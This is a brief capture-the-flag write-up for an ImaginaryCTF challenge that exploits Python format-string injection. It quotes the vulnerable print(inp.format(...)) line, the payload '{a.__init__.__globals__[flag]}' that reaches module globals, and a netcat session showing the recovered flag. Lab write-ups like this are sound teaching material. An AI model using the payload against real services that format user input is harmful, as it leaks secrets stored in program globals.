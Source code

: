 # ImaginaryCTF Formatting Write Up

## Details:

Jeopardy style CTF

Category: Miscellaneous

Points: 100

Comments: Wait, I thought format strings were only in C???

## Write up:

Looking at the file (and description) I could tell that this was a format string vulnerability. Looking at the line with the format string we see:

```py
print(inp.format(a=stonkgenerator()))
```

We are passed an object a which is of type stonkgenerator, from here we can craft the exploit:

```py
{a.__init__.__globals__[flag]}
```

When run with the nc connection I got:

```
nc chal.imaginaryctf.org 42014

                                         88
            ,d                           88
            88                           88
,adPPYba, MM88MMM ,adPPYba,  8b,dPPYba,  88   ,d8  ,adPPYba,
I8[    ""   88   a8"     "8a 88P'   `"8a 88 ,a8"   I8[    ""
 `"Y8ba,    88   8b       d8 88       88 8888[      `"Y8ba,
aa    ]8I   88,  "8a,   ,a8" 88       88 88`"Yba,  aa    ]8I
`"YbbdP"'   "Y888 `"YbbdP"'  88       88 88   `Y8a `"YbbdP"'

Welcome to Stonks as a Service!
Enter any input, and we'll say it back to you with any '{a}' replaced with 'stonks'! Try it out!
> {a.__init__.__globals__[flag]}
ictf{c4r3rul_w1th_f0rmat_str1ngs_4a2bd219}
```